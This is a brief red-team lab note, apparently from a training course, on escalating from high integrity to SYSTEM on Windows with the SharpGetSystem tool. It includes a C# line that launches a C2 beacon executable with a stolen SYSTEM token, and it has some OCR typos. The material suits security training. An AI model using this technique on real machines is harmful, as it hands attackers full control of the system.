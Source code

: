 # Lab - GetSystem

A very lipme lab stat shows you another way of getting SYSTEM when running in a high integrity context.

<https://github.com/fgsec/SharpGetSystem>

uses named pipes

change the source code of console.cs1 to spawn a beacon instead of a cmd.exe

```csharp
 bool result = Pinvoke.CreateProcessWithTokenW(systemToken, 0x00000001, "C:\\temp\\demon.x64.exe", null, 0x00000010, IntPtr.Zero, null, ref si, out pi);
 ```

![image](./images/lab_getsystem_source.jpg)

